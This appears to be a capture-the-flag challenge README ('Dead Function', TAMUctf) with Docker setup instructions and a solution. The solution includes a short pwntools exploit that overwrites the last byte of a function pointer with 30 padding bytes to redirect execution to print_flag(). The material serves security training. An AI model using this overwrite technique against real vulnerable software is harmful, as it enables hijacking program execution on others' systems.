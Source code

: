 # Dead Function

## Challenge

`nc pwn.tamuctf.com 4322`

## Setup
Build the container with `docker build -t pwn2 .` and run it with `docker run -it --rm pwn2`

## Solution
The solution is to overwrite the last byte of the function pointer with that of the last byte of `print_flag()`. An example solution script can be found below:  
```python
from pwn import *

p = remote('172.17.0.2', 4322)
#p = process('./pwn2')
payload = 'A'*30 + '\xd8'

p.send(payload + '\n')
p.interactive()
```
